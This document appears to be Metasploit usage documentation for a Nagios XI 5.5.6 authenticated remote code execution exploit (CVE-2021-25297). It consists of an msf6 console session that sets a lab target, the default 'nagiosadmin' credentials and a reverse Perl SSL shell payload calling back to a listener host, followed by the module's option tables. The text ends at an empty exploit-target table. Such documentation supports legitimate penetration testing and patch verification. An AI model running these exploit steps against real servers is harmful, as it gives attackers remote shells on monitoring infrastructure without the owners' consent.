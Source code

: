 ### CentOS7 Running NagiosXI 5.5.6 (Official OVA) - CVE-2021-25297
```
msf6 > use exploit/linux/http/nagios_xi_configwizards_authenticated_rce
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RHOSTS 192.168.104.18
RHOSTS => 192.168.104.18
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set TARGET_CVE CVE-2021-25297
TARGET_CVE => CVE-2021-25297
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LHOST 192.168.104.2
LHOST => 192.168.104.2
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LPORT 8443
LPORT => 8443
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_configwizards_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so. This includes signin
                                              g the license agreement.
   PASSWORD        nagiosadmin      no        Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.104.18   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasp
                                              loit
   RPORT           443              yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local m
                                              achine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   TARGET_CVE      CVE-2021-25297   yes       CVE to exploit (CVE-2021-25296, CVE-2021-25297, or CVE-2021-25298)
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      no        Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.104.2    yes       The listen address (an interface may be specified)
   LPORT  8443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
```